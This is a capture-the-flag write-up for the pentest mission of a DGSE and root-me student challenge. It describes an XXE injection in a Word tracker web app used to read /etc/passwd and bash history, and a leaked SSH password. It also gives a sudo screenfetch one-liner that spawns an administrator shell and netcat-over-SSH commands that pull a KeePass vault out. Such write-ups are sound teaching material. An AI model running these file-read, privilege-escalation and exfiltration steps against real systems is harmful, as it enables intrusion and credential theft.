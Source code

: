 ```yaml
---
title: "DGSE pentest challenge write-up"
categories:
  - Pentest
tags:
  - XXE

---
```


## Intro

For the last month, DGSE (french intelligence agency) and [root-me](https://www.root-me.org/), hosted a challenge mainly aimed for students in IT/cybersec.

The challenge contains 6 missions, each one exploring a different domain, including AI, SOC analysis, forensic/reverse, pentest, APK reverse/crypto, and OSINT.

This post is a write-up for the pentest mission.


## Recon

We are given an URL leading to this simple website :

![website](/assets/images/post-20250508/01_recon.png)

It seems we can upload any Word document to add in it a tracker called "Victim ID". A second form allows us to upload a tracked Word file to read its "Victim ID".

In this challenge no additionnal recon is required, we will find soon enough this main page is vulnerable and will be our entry point.

Let's give a shot with this tracker !


## Initial foothold

I upload a simple word file, and the website send it back to me edited.
At opening, we can see a warning about unreadable content :

![word file](/assets/images/post-20250508/02_recon.png)

Even if the document's content is identical, it appears the file was indeed modified. Let's unzip the .docx and investigate.
Quickly enough we can find this in app.xml :

![app.xml](/assets/images/post-20250508/03_recon.png)

The website added a "VictimID" XML tag containing what would be a tracker ID.
I try to upload this modified word back in the website's second form :

![read victim ID](/assets/images/post-20250508/04_recon.png)

This is indeed my tracker ID. Now what is happening if I manually edit this ID in app.xml and upload it again ?

![read victim ID 2](/assets/images/post-20250508/05_recon.png)

We can have few ideas how to exploit this :

- XSS : but not really interesting for this challenge
- SQLi : this ID could be in a database
- SSTI : Web services often use template engine and might be badly secured. Moreover I found earlier this webapp is hosted on flask, and SSTI on jinja are common in CTFs

But after unsuccessful tries, I reminded to myself that this webapp is basically reading and writing a docx file, which is mostly XML. What if we could tamper with XML parsing such as [XXE injection](https://portswigger.net/web-security/xxe) ?

In its simplest form, a XXE could allow us to read local files, so let's try to read /etc/passwd : this is a common test, since this file should both exists and be readable by anyone.

![trying injection](/assets/images/post-20250508/06_injection.png)

You can see we need to add a `<!DOCTYPE>` tag with the filename (/etc/passwd) we want to read, an entity (&read) that will contains the file contents, and a tagname (VictimID) that will display our entity (the file content).

![trying injection 2](/assets/images/post-20250508/07_injection.png)

It works ! And this gaves us a first finding with three non-standard users : document-user, executor and administrator.

This should be interesting to investigate.


## Automate file reading

Before going further, I will automate the file reading process : I don't know yet how many files I will need to read before I find either a way to escalate privileges or to another access, and modifying manually the payload for each try will be painful.

For our script to work we will need to prepare :

- An example word file unzipped in a folder (named "template" in my script)
- A copy of app.xml with the XXE exploit and a placeholder for the filename we want to read

Our script will need to :

- Read target filename from script args 
- Read an app.xml template
- Remplace the placeholder with our target filename
- Write new app.xml
- Zip template's directory
- Rename .zip to .docx
- Upload to vulnerable server
- Read result (remote file contents or error if not found/not accessible)


Complete code is [Here](/assets/images/post-20250508/exploit_xxe.py)


## Privesc 1

When initial foothold only allows me to read files, my usuals goto are
**/etc/passwd** to first identify users and home directories.
With this I can try to retrieve SSH keyfiles and shell history.


> ###### Optional :

>Reading **/proc/self/status** tells us we are inside a flask process with UID 999 (document-user). That means when reading files, we have document-user's rights. Usually we would to start investigating with this user home directory.


I find that **/home/document-user/.bash_history** exists, it contains 31 lines including :

- A file named **/plans/next-op.txt**, but I couldn't read it at this point nor later
- That the flask webapp is located in **/app/app.py**
- A vim on **/etc/hosts**. Hosts file contains `172.18.0.2 document-station`. Maybe another server on an internal network ? But checking **/etc/hostname** shows document-station is this server hostname.
- And... what do we got here ? `echo \"cABd*****************\" >> /tmp/exec_ssh_password.tmp`

I first try to login as document-user, but got a **connection refused** error. No SSH server on port 22, maybe, but maybe somewhere else ? Reading **/etc/ssh/sshd_config** we find out a SSH server is configured on the 22222 port.

Loging as **document-user** I am now getting an Incorrect Password error. I try again as **executor**, and I'm logged in !


## Privesc 2

Everytime I gain access to a shell, I give a try with `sudo -l`

And this is a good call, this command gives this : 
```
(administrator) NOPASSWD: /usr/bin/screenfetch
```
That means we can start `screenfetch` as administrator without password. Pretty nice, but I don't know this program, and it isn't listed in [GTFOBins](https://gtfobins.github.io)

This program is actually a bash script, but instead of reading it all, let's check the help `-h` parameter.

```
   -s [-u IMGHOST]    Using this flag tells the script that you want it
                      to take a screenshot. Use the -u flag if you would like
                      to upload the screenshots to one of the pre-configured
                      locations. These include: teknik, imgur, mediacrush and hmp.

   -S 'COMMAND'       Here you can specify a custom screenshot command for
                      the script to execute. Surrounding quotes are required.
```

So this script allows to capture a screenshot, and we can provide a custom command for this !

Don't mind me, I'm just trying to take a screenshot with `bash`...
```
sudo -u administrator /usr/bin/screenfetch -s -S "bash"
```
And bam, a shell as **administrator** !

## Data exfiltration

It's not done yet; in administrator home directory, we find two files : **vault.kdbx**, a keepass file, and **logo.jpg**.

Here comes the tricky part : we want to retrieve these files, but how ? Usually I would use `python -m http.server` or a netcat/socat listener, but we are in a docker, and any port we open is not routed.
Moreover, unlike some CTFs, we are not on the target's network and a listener open on our attacking machine wouldn't be accessible from the target.
Probably a ngrok/lokal.so would work, but I am not familiar with these.

Since we have a SSH access why not use it ? But we only got a SSH access to **executor**, not **administrator**.
The solution I found is pretty simple : first setup a netcat between **administrator** and **executor**, and then start a netcat at SSH connection :

```
#In administrator shell
nc -lvnp 9001 < vault.kdbx

#From attacker
ssh -p 22222 executor@163.172.67.183 "nc 127.0.0.1 9001" > vault.kdbx
```

Maybe there is a more practical way, but I like this one.

## Opening the vault

After we retrieve vault.kdbx, how to open it ? Weirdly enough `keepass2john` tells this file version is not supported, and cracking it using bruteforce might be painful anyway.

Wait, there is still this `logo.jpg` file, what about it ?
I looked for a while at steganography but found nothing. As I open the `vault.kdbx` and stare at the Keepass GUI, it jumps at my face : we can open a vault using a key or a *keyfile*.

I select my **logo.jpg**, and it's done ! The flag is inside the vault.

